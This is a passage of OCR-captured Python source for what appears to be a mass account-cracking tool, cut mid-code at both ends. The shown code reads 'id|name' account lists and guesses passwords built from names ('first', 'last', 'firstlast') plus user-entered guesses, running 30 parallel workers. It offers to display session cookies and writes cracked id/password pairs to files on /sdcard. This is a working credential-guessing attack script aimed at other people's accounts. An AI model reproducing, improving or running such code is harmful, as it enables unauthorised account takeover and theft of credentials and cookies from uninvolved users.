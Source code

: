                 cpacc.append(acc)
                open('/sdcard/Shezii😍-CP.txt','a').write(f'{acc} ✓ {pword}\n')
                break
            else:
                continue
        loop += 1    
      except Exception as e: time.sleep(10)

    if m=='2':
        with speed(max_workers=30) as speede:
             speede.map(start2, accounts)
    elif m=='1':
       with speed(max_workers=30) as speede:
            speede.map(start, accounts)
    else:
       with speed(max_workers=30) as speede:
            speede.map(start, accounts)
    exit()  
      



####@-----Random-----@####
def andom():
    okacc = []
    cpacc = []
    totalpass = []
    os.system("clear")
    print(logo)
    if 'o': 
        tpp = input(f'[?] 1 password firstlast : ')
        totalpass.append('first')
        totalpass.append('last')
        if tpp.isnumeric():
            ex = 'firstlast'
            print(f'[EX]')
            for x in range(int(tpp)):
                totalpass.append(input(f'{oo(x+1)}Password : '))
            pass
        else:
            print(f"{oo('!')}Numeric Only")
            exit()
    print(f'\n'+oo("1")+'Method 1 (Updated)\n'+oo("2")+'Method 2 (Updated)')
    m=input(f"{oo('!')}Input : ") 
    print('\n'+oo("?")+'Do You Want To Show Cp Ids?(y/n)')
    cpok=input(f"{oo('!')}Input : ")
    print('\n'+oo("?")+'Do You Want To Show Cookies?(y/n)')
    c=input(f"{oo('!')}Input : ")
    os.system("clear")
    print(logo) 
    print('\033[1;93m='*25)
    print(f'{oo("✓")}Total Ids : \033[1;92m'+str(len(accounts)))
    print(f"{oo('-')}Wait As You Can :)")
    print(f"{oo('✓')}/sdcard/Shezii😍-OK.txt")
    print('\033[1;93m='*25)
    print()    
    def start(user):
     try:
        global loop,accounts
        r = requests.Session()
        user = user.strip()
        acc, name = user.split("|")
        first = name.rsplit(" ")[0]
        try:
            last = name.rsplit(" ")[1]
        except: